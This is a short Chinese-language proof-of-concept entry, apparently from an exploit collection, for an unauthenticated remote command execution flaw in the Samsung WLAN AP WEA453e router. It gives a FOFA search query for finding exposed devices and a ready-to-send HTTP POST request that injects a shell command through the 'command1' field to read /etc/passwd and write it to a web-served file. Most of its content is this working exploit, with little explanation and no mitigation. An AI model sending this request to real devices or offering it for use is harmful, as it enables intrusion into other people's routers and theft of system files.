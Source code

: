 ### 描述
WLAN AP WEA453e路由器  存在远程命令执行漏洞，可在未授权的情况下执行任意命令获取服务器权限
fofa title=="Samsung WLAN AP"
### POC & EXP
```
# 请求包
POST /(download)/tmp/a.txt HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Content-Length: 0

command1=shell:cat /etc/passwd| dd of=/tmp/a.txt

```
![313213.png](https://i.loli.net/2021/04/25/WYlftLDpv3ThyE4.png)
